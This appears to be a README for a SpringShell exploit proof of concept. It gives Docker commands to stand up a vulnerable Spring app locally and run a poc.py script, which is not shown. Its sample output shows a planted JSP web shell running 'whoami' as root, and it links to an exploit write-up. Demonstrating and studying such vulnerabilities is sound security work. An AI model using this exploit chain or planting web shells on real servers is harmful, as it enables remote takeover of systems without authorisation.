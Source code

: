 # SpringShell

## Deploy

`mvn package` -> Will create .war file <br>
`docker build . -t spring` -> Will create docker image <br>
`docker run --rm -d -p 8080:8080 --name spring spring:latest` -> Will create container <br>
`docker build . -t spring && docker run --rm -d -p 8080:8080 --name spring spring:latest && sleep 5 && python3 poc.py` -> Will create container and execute PoC <br>

## Results:
`docker logs -f <container_id>` or `docker logs -f (docker ps -a -q)`

```
deploy <Response [200]>
webshell <Response [404]>
webshell <Response [500]>
webshell http://localhost:8080/tomcatwar.jsp?cmd=whoami
root
```

## Info:
https://github.com/rive-n/SpringShell/blob/master/exploit.pdf

